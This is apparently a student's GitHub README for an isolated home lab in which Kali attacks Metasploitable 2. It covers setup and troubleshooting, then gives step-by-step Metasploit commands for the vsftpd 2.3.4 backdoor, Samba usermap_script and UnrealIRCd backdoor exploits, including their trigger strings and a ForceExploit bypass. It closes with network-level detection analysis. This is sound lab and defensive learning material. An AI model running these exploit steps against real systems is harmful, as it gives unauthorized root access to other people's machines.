







# homelab101

## Goal
Hey, I'm Nour, a first year cybersecurity student, and this project is something I started to learn by doing. I'm building a simple home lab from scratch: an isolated virtual network where Kali Linux and a vulnerable target VM talk to each other but not to the internet or my home network.

I'm using it to practice networking, Linux, and scanning/attacking intentionally vulnerable machines in a safe environment. I'm documenting every step, including the mistakes and fixes, because my ultimate goal is to grow into a cloud security/DevSecOps engineer.

## Architecture

| VM | OS | Role | Adapters | IP |
|----|----|------|----------|----|
| Kali | Kali Linux | Attacker | NAT + Internal (homelabnetwork) | 192.168.56.10 |
| VulnerableMachine | Metasploitable 2 | Target | Internal (homelabnetwork) | 192.168.56.30 |

Network: VirtualBox Internal Network named `homelabnetwork`, subnet 192.168.56.0/24, no DHCP, no internet.

## Setup

### Adding the vulnerable target
1. Downloaded Metasploitable 2 from the official SourceForge page and extracted the ZIP.
2. Created a VM (Linux, 32-bit, 512 MB RAM) with no ISO, attaching the existing `Metasploitable.vmdk` as its disk.
3. Set Adapter 1 to Internal Network `homelabnetwork` before first boot, so it was never exposed to my real network.
4. Logged in with the default `msfadmin` / `msfadmin` credentials.
5. Switched the console to AZERTY with `sudo loadkeys fr`.
6. Set a static IP by editing `/etc/network/interfaces` (static, address 192.168.56.30, netmask 255.255.255.0).

## Testing and verification
- Target machine network settings: `screenshots/target-network-settings.png`
- From Kali: `ping -c 5 192.168.56.30` got replies. `screenshots/ping-kali-to-target.png`
- Isolation check: `ping -c 3 8.8.8.8` from the target failed, confirming isolation from the internet.

## Troubleshooting log

- **Empty folder in the VirtualBox file picker:** the ZIP hadn't been extracted yet. Fixed by extracting it fully before browsing to the `.vmdk`.

- **No "ISO Image" needed:** Metasploitable ships as a ready-made disk (`.vmdk`), not an installer. Left ISO Image empty and attached the `.vmdk` directly as an existing hard disk.

- **"Skip Unattended Installation" checkbox greyed out:** harmless in this VirtualBox version when no ISO is selected. Continued past it with no issue, since attaching an existing disk skips the install flow anyway.

- **No `inet addr` after editing `/etc/network/interfaces`:** the static config hadn't been applied yet. Fixed with `sudo ifdown eth0 && sudo ifup eth0` (a reboot also works).

- **Keyboard reset to QWERTY on every reboot:** `loadkeys fr` only lasts for the session. Fixed permanently by adding `loadkeys fr` to `/etc/rc.local`, above the `exit 0` line.

- **Major incident: lost all configuration after a reboot.** Cause: a VirtualBox snapshot was restored instead of a normal reboot, most likely via "Restore current snapshot" being ticked in the shutdown dialog. All work since the clean-install snapshot was wiped. The VM was deleted and rebuilt from scratch.

  Lesson learned: never let "Restore current snapshot" be ticked when closing a VM unless you intend to discard changes. Use "Power off the machine" for a normal shutdown instead.

- **`sudo poweroff` / `halt` showed scary errors ("unable to load IDE devices", "System halted"):** cosmetic warnings from Metasploitable's outdated drivers reacting to VirtualBox's virtual hardware. The shutdown still completes correctly; "System halted" is the normal final message, not an error.

- **New habit adopted after the rebuild:** verify configuration survives a reboot (static IP + keyboard layout) *before* taking a "clean" snapshot, and take a fresh snapshot after every milestone, not just once at the start.

## First exploit: vsftpd 2.3.4 backdoor

**Target:** 192.168.56.30, port 21 (FTP), vsftpd 2.3.4
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/unix/ftp/vsftpd_234_backdoor

### What the vulnerability is
vsftpd 2.3.4's source was compromised in 2011; a backdoor was inserted so that sending a username containing ":)" opens a root shell on port 6200, no authentication required. Metasploitable 2 ships this exact version intentionally for training.

### Steps
1. Identified vsftpd 2.3.4 via `nmap -sV` on port 21.
2. In msfconsole: `search vsftpd` → found `exploit/unix/ftp/vsftpd_234_backdoor`.
3. `use exploit/unix/ftp/vsftpd_234_backdoor`
4. `set RHOSTS 192.168.56.30`
5. `set LHOST 192.168.56.10`
6. `run`

### Result
Meterpreter session opened. `getuid` confirmed root access (uid=0, gid=0).

### Screenshot

## Second exploit: Samba usermap_script

**Target:** 192.168.56.30, port 139/445 (Samba)
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/multi/samba/usermap_script

### What the vulnerability is
Older versions of Samba's "username map script" feature allow shell metacharacters in a submitted username to be passed through to the system shell, resulting in arbitrary command execution. Unlike the vsftpd backdoor (a deliberately planted trigger), this is a real code-injection vulnerability in how Samba handled that configuration option.

### Steps
1. Identified Samba on ports 139/445 via `nmap -sV` earlier.
2. In msfconsole: `search type:exploit samba` → `exploit/multi/samba/usermap_script`
3. `use exploit/multi/samba/usermap_script`
4. `set RHOSTS 192.168.56.30`
5. `set LHOST 192.168.56.10`
6. `run`

### Result
A command shell session opened. Unlike Meterpreter, this shell shows no visible prompt. Confirmed it was live by typing `whoami` blind, which returned `root`.

### Lesson learned
A successful session with no visible prompt isn't a frozen terminal — it's normal for `exploit/multi/samba/usermap_script` and similar raw command-shell payloads. Typing a command (e.g. `whoami`) and pressing Enter confirms whether the shell is actually live.

### Screenshot

## Third exploit: UnrealIRCd 3.2.8.1 backdoor

**Target:** 192.168.56.30, port 6667 (IRC)
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/unix/irc/unreal_ircd_3281_backdoor

### What the vulnerability is
UnrealIRCd's official source was compromised in 2009; a backdoor was inserted so that any input containing "AB;" followed by a command gets executed directly on the system shell, no authentication required.

### Steps
1. Identified UnrealIRCd on port 6667 via nmap.
2. `use exploit/unix/irc/unreal_ircd_3281_backdoor`
3. `set RHOSTS 192.168.56.30`
4. `set LHOST 192.168.56.10`
5. Initial run failed version check: "not-vulnerable: UnrealIRCd 3.2.8.1 not detected." Nmap's version scan couldn't confirm the exact build from the banner either.
6. Forced the exploit past the check: `set ForceExploit true`, then `run`.

### Result
Meterpreter session opened successfully despite the version-check warning, since the warning only reflects a failed banner match, not the actual outcome. Confirmed root access with `getuid`.

### Lesson learned
A module's own "not exploitable" message is a pre-check, not a verdict. When there's good reason to believe a target is vulnerable (Metasploitable 2 is documented to ship this backdoor), `ForceExploit` can bypass an unreliable version fingerprint. Always confirm actual success with `getuid`/`whoami` afterward rather than trusting status messages alone.

### Screenshot

## Blue Team Analysis: Detecting the Attacks

After exploiting the target, reviewed it from a defender's perspective to understand what evidence each attack left behind.

### Method
- Re-triggered the vsftpd backdoor exploit from Kali
- On the target, checked active connections (`netstat -antp`), running processes (`ps aux`), and system logs (`/var/log/auth.log`, `/var/log/syslog`)

### Findings

**Active connections:** `netstat -antp` showed a live connection from the attacker machine (Kali, 192.168.56.10) to the target on **port 4444** — the Metasploit reverse handler port used by the vsftpd backdoor session. This was the clearest and fastest indicator of compromise: an active, unexpected connection on a non-standard port.

**Logs:** standard authentication and system logs showed little to nothing useful, since the backdoor bypasses normal login entirely.

## Network-Level Detection: Capturing the Attack with Wireshark

Since Metasploitable 2's outdated OS doesn't support modern host-based monitoring tools (Wazuh, auditd), detection was approached at the network level instead — capturing and analyzing the exploit traffic directly.

### Method
- `sudo tcpdump -i eth1 host 192.168.56.30 -w attack-capture.pcap` on Kali, left running while re-triggering the vsftpd backdoor exploit
- Opened the resulting capture in Wireshark
- Filtered to `ftp` to isolate the initial connection, then to `tcp.port == 4444` to find the follow-up reverse shell connection
- Used **Follow → TCP Stream** on each to read the raw conversation

### Finding 1: The FTP trigger string
The connection to port 21 contained the literal backdoor trigger (`:)` in the submitted username) in plain, readable text. This is a concrete network-level signature an IDS (e.g. Snort/Suricata) could alert on directly.

### Finding 2: The reverse shell connection
A second, separate connection appeared immediately after, on port 4444 — Metasploit's default reverse handler port. Unlike the FTP stream, this traffic is Meterpreter's own protocol and is not human-readable.

### Why this matters
Two distinct, independently detectable signatures came out of a single exploit:
1. A readable trigger string in FTP traffic — detectable by content inspection.
2. An unexplained, sustained connection on port 4444 — detectable purely by behavior/metadata, even without decoding the payload.

This is an important lesson for detection engineering: not every indicator of compromise is human-readable. Some attacks are caught by *what* a connection looks like (port, timing, persistence), not just *what's inside* it. Not every system can run modern endpoint monitoring either, especially legacy infrastructure, which is common in real environments — making network-level detection a necessary complement to host-based logging.